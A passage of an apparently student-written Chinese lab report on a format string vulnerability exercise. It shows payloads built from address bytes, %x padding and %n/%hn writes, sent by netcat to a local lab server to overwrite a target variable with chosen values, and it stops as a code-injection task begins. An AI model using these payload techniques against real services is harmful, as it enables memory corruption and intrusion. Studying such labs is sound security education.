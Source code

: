 ```
nc -u 127.0.0.1 9090 < input
```

可以看到target数值的内容由`0x11223344`变化为了`0x000000d3`。

![image](https://user-images.githubusercontent.com/64548919/193293890-967c451d-925f-4cfe-b1ae-9f44b6b62f8e.png)

### Task 5.B: Change the value to 0x500

为了使得target数值的内容变为0x500，在调用%n之前，需要输出5\*16\*16个字符。

1. 考虑向input文件中输入`\x40\xa0\x04\x08`，22个`%.8x.`，1个`%.1100x`和1个`%n`

![image](https://user-images.githubusercontent.com/64548919/193299148-9e69cb38-96f5-4774-a552-c2a6894e1558.png)

2. 考虑将input重定向伊发送给server：

```
nc -u 127.0.0.1 9090 < input
```

可以看到target数值的内容由`0x11223344`变化为了`0x500`。

![image](https://user-images.githubusercontent.com/64548919/193299372-95eb3937-40ae-4898-bff3-f21ef54e0179.png)

### Task 5.C: Change the value to 0xFF990000

1. 考虑向input文件中输入`\x42\xa0\x04\x08....\x40\xa0\x04\x08`，22个`%.8x`，1个`%.65245x`，1个`%.hn`，1个`%.103x`和1个`%hn`


![image](https://user-images.githubusercontent.com/64548919/193305713-1660f47a-a004-4d3d-bc2f-6674cd19d1e5.png)

2. 考虑将input重定向伊发送给server：

```
nc -u 127.0.0.1 9090 < input
```

可以看到target数值的内容由`0x11223344`变化为了`0xff990000`。

![image](https://user-images.githubusercontent.com/64548919/193306024-cf4d8783-81ab-4e0c-afa1-ce7a4eb026ba.png)

### Task 6: Inject Malicious Code into the Server Program

首先在指定目录下创建必要的`myfile`文件，通过以下的命令：

```
cd /
ls
cd tmp
echo "Hi, I'm 11910104" > myfile
cat myfile
```

![image](https://user-images.githubusercontent.com/64548919/193404036-8588a704-5b7d-417e-8459-7d2d5dacfd53.png)
